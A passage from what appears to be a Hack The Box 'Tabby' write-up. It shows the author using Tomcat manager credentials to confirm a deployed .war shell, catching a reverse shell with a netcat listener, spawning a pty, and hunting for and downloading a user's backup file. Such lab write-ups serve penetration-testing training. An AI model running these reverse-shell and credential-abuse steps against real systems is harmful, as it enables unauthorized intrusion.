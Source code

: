 Lets double check if it's there.
```
curl -u "tomcat:\$3cureP4s5w0rd123!" http://megahosting.htb:8080/manager/text/list
```

![Image of curl tomcat](/images/htb/tabby/curl-tomcat-list2.png)

We can see that `/shell:running:0:shell` has been added, which should be our .war payload. Since it looks like it's been uploaded, we can try to get a reverse shell. Let's set up a listener with `nc -nlvp 4444` and we use curl to start the shell:

```
curl -u "tomcat:\$3cureP4s5w0rd123!" http://megahosting.htb:8080/shell/
```

And we are in! We recieve a reverse shell as the service user tomcat.


And before we do any post enumeration, lets quickly upgrade to a pty shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Lateral Movement
---

### Post Enumeration

Looking in the /home directory, there is a user called ash, whose folder we can't access.

As part of our post enumeration we can look for files that ash owns.

```
find / -type f -user ash 2>/dev/null
```

We find a backup.zip file at: `/var/www/html/files/16162020_backup.zip`

Sicne it's in the website folder, we can simply download it through our browser:

```
http://megahosting.htb/files/16162020_backup.zip
```
